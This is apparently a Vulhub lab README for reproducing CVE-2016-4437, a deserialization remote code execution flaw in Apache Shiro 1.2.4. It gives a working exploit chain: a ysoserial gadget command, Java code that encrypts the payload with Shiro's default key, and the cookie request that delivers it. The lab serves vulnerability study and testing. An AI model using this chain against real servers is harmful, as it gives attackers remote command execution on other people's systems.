

# Apache Shiro 1.2.4 Deserialization Remote Code Execution (CVE-2016-4437)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Shiro is a powerful and easy-to-use Java security framework that performs authentication, authorization, cryptography, and session management.

In Apache Shiro 1.2.4 and earlier versions, encrypted user information is serialized and stored in a cookie named "remember-me". Attackers can forge user cookies using Shiro's default key, triggering a Java deserialization vulnerability that allows arbitrary command execution on the target machine.

## Environment Setup

Execute the following command to start a Web application using Apache Shiro 1.2.4:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` and you can log in using the credentials `admin:vulhub`.

## Vulnerability Reproduction

Use ysoserial to generate a CommonsBeanutils1 Gadget:

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

Encrypt the payload using Shiro's built-in default key:

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

Then send the following request with the payload in the rememberMe cookie:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: rememberMe=<encrypted_payload>


```

You will see the `touch /tmp/success` command has been executed:


